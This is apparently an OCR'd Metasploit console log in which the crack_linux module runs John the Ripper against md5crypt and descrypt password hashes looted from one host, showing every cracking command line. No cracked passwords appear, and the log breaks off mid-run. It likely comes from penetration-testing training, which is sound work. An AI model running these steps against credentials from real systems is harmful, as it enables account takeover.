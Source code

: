 ```
msf5 auxiliary(analyze/crack_linux) > set POT /root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt
POT => /root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt
msf5 auxiliary(analyze/crack_linux) > set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_users.txt
CUSTOM_WORDLIST => /usr/share/metasploit-framework/data/wordlists/unix_users.txt
msf5 auxiliary(analyze/crack_linux) > run
Created directory: /root/.john

[+] john Version Detected: 1.9.0-jumbo-1 OMP
[*] Hashes Written out to /tmp/hashes_tmp20221104-435-1hmn0a
[*] Wordlist file written out to /tmp/jtrtmp20221104-435-qwpe1t
[*] Checking md5crypt hashes already cracked...
[*] Cracking md5crypt hashes in single mode...
[*]    Cracking Command: /usr/sbin/john --session=IXJKew9z --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=md5crypt --wordlist=/tmp/jtrtmp20221104-435-qwpe1t --rules=single /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[*] Cracking md5crypt hashes in normal mode
[*]    Cracking Command: /usr/sbin/john --session=IXJKew9z --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=md5crypt /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[*] Cracking md5crypt hashes in incremental mode...
[*]    Cracking Command: /usr/sbin/john --session=IXJKew9z --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=md5crypt --incremental=Digits /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[*] Cracking md5crypt hashes in wordlist mode...
[*]    Cracking Command: /usr/sbin/john --session=IXJKew9z --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=md5crypt --wordlist=/tmp/jtrtmp20221104-435-qwpe1t --rules=wordlist /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[+] Cracked Hashes
==============

 DB ID  Hash Type  Username  Cracked Password  Method
 -----  ---------  --------  ----------------  ------

[*] Checking descrypt hashes already cracked...
[*] Cracking descrypt hashes in single mode...
[*]    Cracking Command: /usr/sbin/john --session=AQpJ19oD --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=descrypt --wordlist=/tmp/jtrtmp20221104-435-qwpe1t --rules=single /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[*] Cracking descrypt hashes in normal mode
[*]    Cracking Command: /usr/sbin/john --session=AQpJ19oD --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=descrypt /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[*] Cracking descrypt hashes in incremental mode...
[*]    Cracking Command: /usr/sbin/john --session=AQpJ19oD --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=descrypt --incremental=Digits /tmp/hashes_tmp20221104-435-1hmn0a
Using default input encoding: UTF-8
[*] Cracking descrypt hashes in wordlist mode...
[*]    Cracking Command: /usr/sbin/john --session=AQpJ19oD --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/20221104110700_default_192.87.136.3_linux.hashes_536998.txt --format=descrypt --wordlist=/tmp/jtrtmp20221104-435-qwpe1t --rules=wordlist /tmp/hashes_tmp20221104-435-1hmn0a
```